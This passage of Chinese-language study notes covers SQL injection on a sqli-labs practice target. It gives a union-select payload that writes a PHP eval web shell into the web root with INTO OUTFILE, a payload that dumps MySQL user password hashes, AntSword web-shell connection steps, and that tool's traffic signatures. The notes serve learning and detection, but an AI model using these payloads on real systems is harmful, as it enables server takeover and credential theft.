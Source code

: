 ![image-20240802211733747](../../../../repo/assets/19.SQL注入/image-20240802211733747.png)

### **5、** **select into outfile 写一句话木马**

#### 写一句话木马

```bash
http://192.168.70.14:8088/Less-4/?id=-1") union select 1,"<?php eval($_POST['xxx']);?>",3 into outfile '/var/www/html/shell.php' --+
```

![image-20240802170158938](../../../../repo/assets/19.SQL注入/image-20240802170158938.png)

#### 配置

```bash
mysql> show variables like 'secure_file_priv';
chmod 777 /var/www/html
```

![image-20240802212255609](../../../../repo/assets/19.SQL注入/image-20240802212255609.png)

#### 蚁剑链接

![image-20240802170352310](../../../../repo/assets/19.SQL注入/image-20240802170352310.png)

![image-20240802170443917](../../../../repo/assets/19.SQL注入/image-20240802170443917.png)

#### 分析蚁剑流量

蚁剑流量特征

antsword

- @ini _set("display","0");
- @set time limit(0)
- base64编码

### 5.1、慢日志写入一句话木马

##### windows mysql设置

```bash
[mysqld]

slow_query_log=1 # 启动慢查询日志
```

##### 获取数据库用户名密码

```bash
?id=0' union select 1,group_concat(user,0x3a,authentication_string),3 from mysql.user--+
```

![image-20240802172357081](../../../../repo/assets/19.SQL注入/image-20240802172357081.png)
